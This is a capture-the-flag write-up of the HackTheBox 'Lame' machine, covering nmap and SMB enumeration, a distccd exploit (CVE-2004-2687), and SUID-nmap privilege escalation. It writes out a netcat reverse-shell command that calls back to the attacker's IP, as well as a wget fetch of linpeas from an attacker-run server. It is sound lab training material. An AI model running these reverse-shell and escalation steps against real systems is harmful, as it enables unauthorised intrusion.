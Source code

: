 # Lame - 10.10.10.3

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10`
and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls`  to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.<br>
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

the <em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I cd /usr/bin where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now cd /root and see what is there which is the <em><strong>root.txt</em></strong> flag!<br>
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
